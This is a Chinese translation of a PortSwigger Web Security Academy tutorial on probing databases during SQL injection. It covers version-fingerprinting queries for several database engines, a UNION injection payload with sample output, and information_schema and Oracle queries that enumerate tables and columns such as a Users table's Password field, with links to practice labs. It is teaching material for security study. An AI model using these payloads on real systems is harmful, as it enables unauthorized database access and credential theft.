 ```yaml
---
description: '原文链接：https://portswigger.net/web-security/sql-injection/examining-the-database'
---
```


# 在SQL注入攻击中检查数据库

当利用 SQL 注入利用时，收集数据库本身的信息通常是必要的。这包括数据库软件的类型和版本，还包括数据库中包含的表和列等内容。

### 查询数据库类型和版本

不同的数据库提供不同的版本查询方式。我们通常需要在多种查询方式中尝试，找出可以让我们确定数据库软件类型和版本的那一种方法。

主流数据库提供如下方式来确定数据库版本：

```text
Database type      |   Query
----------------------------------------
Microsoft, MySQL   |   SELECT @@version
Oracle             |   SELECT * FROM v$version
PostgreSQL     |   SELECT version()
```

例如，可以在 UNION 注入攻击中利用如下 payload:

```text
' UNION SELECT @@version--
```

我们可能得到如下结果，从而确定数据库类型为 Microsoft SQL Server ，版本信息为：

```text
Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64)
Mar 18 2018 09:11:49
Copyright (c) Microsoft Corporation
Standard Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build 14393: ) (Hypervisor)
```

{% hint style="warning" %}
**实验：**[SQL注入攻击，在Oracle中查询数据库类型和版本](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)
{% endhint %}

{% hint style="warning" %}
**实验：**[SQL注入攻击，在MySQL和微软中查询数据库类型和版本](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)
{% endhint %}

### 列出数据库的内容

大多数数据类型，都有一组被称作 information schema 的视图，这些视图提供有关数据库的信息。

我们可以通过查询 information\_schema.tables 列出数据库的表：

```text
SELECT * FROM information_schema.tables
```

返回如下：

```text
TABLE_CATALOG TABLE_SCHEMA TABLE_NAME    TABLE_TYPE
=====================================================
MyDatabase    dbo          Products BASE TABLE
MyDatabase    dbo          Users BASE    TABLE
MyDatabase    dbo          Feedback BASE TABLE
```

这些返回结果表明，库中有三个表，分别是 Products, Users, Feedback。

我们可以通过查询 information\_schema.columns 列出特定表中的列：

```text
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
```

返回如下：

```text
TABLE_CATALOG TABLE_SCHEMA TABLE_NAME COLUMN_NAME DATA_TYPE
=================================================================
MyDatabase    dbo          Users      UserId      int
MyDatabase    dbo          Users      Username    varchar
MyDatabase    dbo          Users      Password    varchar
```

此输出显示了指定表中的列以及每列的数据类型。

{% hint style="warning" %}
**实验：**[SQL注入攻击，在非Oracle数据库中列出数据库内容](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)
{% endhint %}

### 等效于Oracle中的information schema

在 Oracle 中，我们可以通过稍有差异的查询语句获取同样的信息。

我们可以通过查询 all\_tables 列出表：

```text
SELECT * FROM all_tables
```

可以通过查询 all\_tab\_columns 列出列：

```text
SELECT * FROM all_tab_columns WHERE table_name = 'USERS'
```

{% hint style="warning" %}
实验：[SQL注入攻击，在Oracle中列出数据库内容](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)
{% endhint %}

